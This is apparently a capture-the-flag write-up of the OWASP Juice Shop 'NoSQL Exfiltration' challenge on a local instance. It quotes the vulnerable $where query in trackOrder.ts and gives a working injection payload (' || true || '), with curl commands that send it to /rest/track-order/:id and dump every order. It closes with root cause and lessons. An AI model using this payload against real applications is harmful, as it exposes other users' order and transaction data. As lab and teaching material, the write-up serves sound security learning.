




# NoSQL Exfiltration

## Challenge Information

| Field                   | Details                        |
| ----------------------- | ------------------------------ |
| **Challenge**           | NoSQL Exfiltration             |
| **Category**            | Injection                      |
| **Challenge Key**       | `noSqlOrdersChallenge`         |
| **Target**              | `http://127.0.0.1:42000`       |
| **Endpoint**            | `/rest/track-order/:id`        |
| **Vulnerability**       | NoSQL Injection                |
| **Database Technology** | MongoDB-derived NoSQL database |

---

## Objective

Exploit a NoSQL injection vulnerability in the order-tracking endpoint to bypass the intended single-order lookup and retrieve multiple orders.

The challenge is solved when the endpoint returns more than one order.

---

## Reconnaissance / Discovery

### 1. Identify the Order-Tracking Functionality

The challenge hints indicate that the target should be an API endpoint designed to deliver a single order to the user.

Searching the Juice Shop source for order-delivery and tracking functionality led to:

```text
/var/lib/juice-shop/routes/trackOrder.ts
```

The application registers the endpoint as:

```text
GET /rest/track-order/:id
```

This endpoint accepts an order ID through the URL and queries the orders collection.

### 2. Inspect the Source Code

The relevant source code was examined with:

```bash
grep -n -A15 -B5 "ordersCollection.find" /var/lib/juice-shop/routes/trackOrder.ts
```

The important section is:

```js
const id = !utils.isChallengeEnabled(challenges.reflectedXssChallenge)
  ? String(req.params.id).replace(/[^\w-]+/g, '')
  : utils.trunc(req.params.id, 60)

db.ordersCollection.find({
  $where: `this.orderId === '${id}'`
})
```



The important finding is that user-controlled input from `req.params.id` is inserted directly into a MongoDB `$where` expression.

---

## Attack Surface

The vulnerable endpoint is:

```text
GET /rest/track-order/:id
```

The application intends to use the supplied value as an order identifier.

The expected query structure is effectively:

```js
this.orderId === '<user supplied ID>'
```

However, because the input is concatenated directly into the `$where` expression, an attacker can alter the JavaScript expression instead of supplying only an order ID.

---

## Understanding the `$where` Injection

The vulnerable expression is:

```js
this.orderId === '${id}'
```

The injection payload used was:

```text
' || true || '
```

URL-encoded:

```text
%27%20%7C%7C%20true%20%7C%7C%20%27
```

When inserted into the vulnerable expression, the resulting condition becomes conceptually:

```js
this.orderId === '' || true || ''
```

Because `true` is always true, the complete `$where` condition evaluates to true for every order.

Therefore, instead of returning one matching order, the query returns multiple orders.

---

## Injection Request

The payload was sent directly to the vulnerable endpoint:

```bash
curl -i 'http://127.0.0.1:42000/rest/track-order/%27%20%7C%7C%20true%20%7C%7C%20%27'
```



The server accepted the manipulated order ID and processed the resulting `$where` expression.

---

## Validation

To verify that the injection returned multiple orders, the response was reduced to the relevant fields:

```bash
curl -s 'http://127.0.0.1:42000/rest/track-order/%27%20%7C%7C%20true%20%7C%7C%20%27' \
  | jq '.data | {count: length, orders: [.[] | {orderId, totalPrice, delivered}]}'
```

The response showed multiple orders being returned.



This confirms that the endpoint's intended single-order restriction was bypassed.

---

## Challenge Verification

The challenge state was verified through the Juice Shop challenge API:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="noSqlOrdersChallenge") | "\(.name) | solved=\(.solved)"'
```

Result:

```text
NoSQL Exfiltration | solved=true
```



---

## Exploitation Summary

The complete attack chain was:

```text
1. Identify the order-tracking endpoint
        ↓
2. Inspect the endpoint's source code
        ↓
3. Identify direct insertion into a MongoDB $where expression
        ↓
4. Construct the payload: ' || true || '
        ↓
5. URL-encode the payload
        ↓
6. Send it to /rest/track-order/:id
        ↓
7. $where condition evaluates to true
        ↓
8. Multiple orders are returned
        ↓
9. Challenge condition is satisfied
```

---

## Security Impact

A `$where` injection can allow an attacker to manipulate the database query logic.

In this challenge, the intended behavior was to retrieve a single order by its order ID. The injection instead caused the query condition to evaluate to true for every order.

Depending on the application's data and authorization controls, this type of vulnerability could expose information belonging to other users.

Potential impact includes:

* Unauthorized access to other orders
* Exposure of order metadata
* Disclosure of transaction information
* Bypass of intended query restrictions
* Broader database-level information exposure

---

## Root Cause

The root cause is the construction of a MongoDB `$where` expression using unsanitized user-controlled input:

```js
$where: `this.orderId === '${id}'`
```

The application treats the supplied order ID as data, but then places it directly into executable query logic.

This creates a separation failure between **data** and **code**.

---

## Lessons Learned

### 1. `$where` Requires Special Attention

MongoDB `$where` expressions can evaluate JavaScript-like expressions. Concatenating user input into these expressions can therefore introduce injection vulnerabilities.

### 2. Look for Query Construction

When performing source-code reconnaissance, search for database queries where request parameters are directly concatenated into query strings or expressions.

### 3. Follow the Application's Intended Functionality

The challenge hint about finding an endpoint designed to deliver a single order narrowed the attack surface to the order-tracking functionality.

### 4. Validate the Result

A successful injection is not determined only by receiving an HTTP `200` response.

The important validation was that the response contained **more than one order**, matching the challenge's solving condition.

### 5. Understand the Underlying Query Language

Understanding how MongoDB `$where` expressions work made it possible to transform the intended comparison into an expression that always evaluates to true.

---

## Conclusion

The NoSQL Exfiltration challenge demonstrated how unsafe construction of a MongoDB `$where` expression can allow user-controlled input to alter database query logic.

By injecting:

```text
' || true || '
```

into the order-tracking endpoint, the intended single-order lookup was converted into a condition that evaluated to true for multiple documents.

The resulting response contained multiple orders, satisfying the challenge condition:

```text
NoSQL Exfiltration | solved=true
```

The key security lesson is to avoid embedding untrusted input directly into executable database expressions and to use safe, structured query mechanisms instead.
